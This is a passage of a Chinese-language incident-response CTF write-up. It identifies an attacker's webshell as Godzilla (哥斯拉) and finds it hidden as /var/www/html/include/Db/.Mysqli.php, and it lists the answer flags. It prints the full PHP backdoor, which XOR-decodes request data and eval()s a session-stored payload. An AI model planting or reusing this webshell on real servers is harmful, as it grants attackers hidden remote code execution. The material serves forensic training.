 > $ root@ip-10-0-10-1:/var/www/html/include# cat gz.php

>  **flag{027ccd04-5065-48b6-a32d-77c704a5e26d}**

## 二,黑客使用的什么工具的shell github地址的md5 flag{md5}

根据上述代码,查找特征值发现是哥斯拉

![image-20240606152734834](https://img2023.cnblogs.com/blog/3173791/202406/3173791-20240606164444836-1289135513.png)

> **flag{39392de3218c333f794befef07ac9257}**

## 三,黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx

d盾查杀中发现一个`^.`的后门文件

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

> $ root@ip-10-0-10-1:/var/www/html/include/Db# cat .Mysqli.php

> **flag{aebac0e58cd6c5fad1695ee4d1ac1919}**

## 四,黑客免杀马完整路径 md5 flag{md5}
